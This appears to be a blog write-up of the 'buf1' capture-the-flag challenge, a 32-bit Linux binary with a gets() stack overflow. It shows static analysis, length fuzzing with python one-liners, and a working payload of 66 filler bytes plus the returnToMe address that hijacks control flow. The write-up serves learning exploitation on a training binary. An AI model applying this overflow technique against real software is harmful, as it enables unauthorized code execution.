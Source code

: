 buf1 - Another Buffer Overflow Challenge
========================================
date: 24/Feb/2014
summary: This is another buffer overflow challenge I found online. I posted a writeup on a similar challenge buf0 earlier and one for this challenge was long due. Finally today I got some time to document the solution.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf1](/static/files/buf1.bin). Let's see what `file` command has to tell us about this challenge file:

```console
$ file buf1.bin
buf1.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x746bc251bceb3d50b635362140ec851bf6f85317, not stripped
```

So this binary, like it's [counterpart](https://7h3ram.github.io/posts/20140106_buf0-challenge.html), is also an x86 ELF with symbols included. Let's run `strings` as well over this file:

```console
$ strings buf1.bin
/lib/ld-linux.so.2
ktP=
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

There's the `gets` syscall and the `W00T!` string which confirm that this indeed is very similar to the previous challenge. Before we execute this file, let's do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting function called `returnToMe` at location 0x08048404. Let's follow this function and see what is it doing:

![image](/static/files/ida-returntome.png)

Let's figure out the size of the buffer to know how many bytes would be needed to reach saved EIP:

```console
$ python -c 'print "A"*40' | ./buf1.bin
$ python -c 'print "A"*50' | ./buf1.bin
$ python -c 'print "A"*60' | ./buf1.bin
$ python -c 'print "A"*70' | ./buf1.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*65' | ./buf1.bin
$ python -c 'print "A"*66' | ./buf1.bin
Illegal instruction (core dumped)
$
$ python -c 'print "A"*67' | ./buf1.bin
Segmentation fault (core dumped)
```

So, the binary accepts max 66B before `gets` overwrites saved EIP. Now we can inject the buffer with dummy input followed by the address of `returnToMe` function:

```console
$ python -c 'print "A"*66 + "\x04\x84\x04\x08"' | ./buf1.bin
W00T!
Segmentation fault (core dumped)
```

Done. But this time the program didn't exit cleanly. However, the challenge was to get the `returnToMe` function called and it was done successfully. But it's not always about completing challenges. Let's take it as a learning opportunity and understand why, being so similar, both challenges exited in different manner. To understand this and other such minute intricacies of buffer overflows read my previous posts starting with: [Gera's Warming Up on Stack #1 - Solutions](https://7h3ram.github.io/posts/20120827_geras-wuos-stack1-solutions.html).
